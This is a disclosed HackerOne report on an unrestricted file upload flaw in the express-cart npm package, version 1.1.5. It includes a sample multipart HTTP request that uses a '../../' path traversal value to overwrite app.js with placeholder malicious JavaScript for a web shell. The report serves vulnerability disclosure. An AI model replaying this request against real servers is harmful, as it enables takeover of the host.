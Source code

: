 # Unrestricted file upload (RCE)

## Report Details
- **Report ID**: 343726
- **URL**: https://hackerone.com/reports/343726
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-04-26T21:54:11.434Z
- **Disclosed**: 2018-06-02T07:20:08.023Z

## Reporter
- **Username**: patrickrbc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an unrestricted file upload in express-cart.

It allows a user with administrative privileges to upload a file to any path.

# Module

**module name:** express-cart
**version:** 1.1.5
**npm page:** `https://www.npmjs.com/package/express-cart`

## Module Description

expressCart is a fully functional shopping cart built in Node.js (Express, MongoDB) with Stripe, PayPal and Authorize.net payments.

# Vulnerability

## Vulnerability Description

A privileged user can use the upload functionality to gain access to the server.

The application offers the possibility of uploading product images. However, there are many problems with the way it handles these uploads.

Firstly, it uses a path provided by the user. This path is not validated, therefore, it would allow the user to upload the file to any path on the hosting server.

Secondly, it does not restrict the type of the file being uploaded, therefore, it would allow the user to upload a malicious file to gain access to the server.

Finally, it does not restrict the size of the file. This would allow to easily exhaust the host resources and consequently produce a DoS.
  
## Steps To Reproduce:

There are many ways this vulnerability could be exploited. Supposing our goal would be to establish access to the host machine, we could replace the *app.js* file with a malicious JavaScript that would give us a web shell.

Once you have administrator privileges you can use a request similar to:

```
POST /admin/file/upload HTTP/1.1
Host: localhost:1111
Referer: http://localhost:1111/
Content-Type: multipart/form-data; boundary=---------------------------1099055603892737061752875043
Cookie: [ADMINISTRATOR_COOKIE]

-----------------------------1099055603892737061752875043
Content-Disposition: form-data; name="upload_file"; filename="app.js"
Content-Type: image/png

[MALICIOUS_JAVASCRIPT]
-----------------------------1099055603892737061752875043
Content-Disposition: form-data; name="productId"

5ae2228d995e3e5d7c96474d
-----------------------------1099055603892737061752875043
Content-Disposition: form-data; name="directory"

../../
-----------------------------1099055603892737061752875043
Content-Disposition: form-data; name="saveButton"

-----------------------------1099055603892737061752875043--
```

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

This vulnerability would allow a privileged user to gain access in the hosting machine.

## Attachments
No attachments
